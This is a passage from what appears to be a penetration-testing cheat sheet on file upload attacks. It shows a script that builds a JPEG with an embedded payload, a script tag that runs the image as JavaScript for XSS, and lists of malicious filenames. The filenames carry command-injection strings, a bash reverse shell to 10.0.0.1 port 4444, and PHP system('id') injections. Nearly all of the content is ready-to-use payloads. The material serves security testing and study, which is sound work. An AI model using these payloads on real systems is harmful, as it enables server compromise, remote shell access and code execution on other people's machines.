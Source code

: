 ```python
end = bytearray([int(end[i:i+2], 16) for i in range(0, len(end), 2)])

res = start + (null_size * b'\x00') + payload + end

with open(output_file, 'wb') as f:
	f.write(res)
```

### [5. XSS with this JPEG](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#5.-xss-with-this-jpeg)

Inject XSS to make our JPEG to execute JavaScript code. We need to set `charset` to `ISO-8859-1` for executing that.

```bash
<script charset="ISO-8859-1" src="evil.jpg">
```

  

## [Malicious Filnames](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#malicious-filnames)

### [Command Injection](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#command-injection)

```bash
# If the response comes after 10 seconds, the command injection is successful.
test.jpg;sleep 10
test.jpg;sleep+10
test.jpg;sleep 10#
test.jpg;sleep 10%00
test.jpg|sleep 10
test.jpg%0Asleep 10
;sleep 10 test.jpg

# Reverse Shell
test.jpg;bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

### [PHP Injection](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#php-injection)

```html
<?php echo system('id');?>.jpg
"><?php echo system('id');?>.jpg
```

### [XSS](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#xss)
